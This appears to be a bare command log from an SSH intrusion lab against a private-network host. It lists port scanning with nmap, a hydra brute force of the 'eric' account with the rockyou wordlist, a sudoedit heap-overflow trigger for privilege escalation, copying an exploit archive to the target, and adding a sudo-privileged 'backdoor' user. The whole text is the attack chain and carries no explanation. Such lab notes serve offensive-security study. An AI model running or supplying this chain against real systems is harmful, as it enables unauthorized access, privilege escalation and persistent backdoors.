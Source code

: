 sudo nmap -sS -p22 192.168.33.0-20
sudo nmap -sV -O -p22 192.168.33.10

#cd /usr/share/wordlists

sudo gzip -d -k /usr/share/wordlists/rockyou.txt.gz
hydra -l eric -P /usr/share/wordlists/rockyou.txt 192.168.33.10 ssh
ssh eric@192.168.33.10
password
sudoedit -s '\' `perl -e 'print "A" x 65536'`

sudo -V
hostnamectl

cd /blah/blah
make

# rm ~/.ssh/known_hosts
scp exploit.final.tar eric@192.168.33.10:/home/eric/

sudo apt install build-essential
sudo apt install gcc

sudo adduser backdoor
sudo usermod -aG sudo backdoor

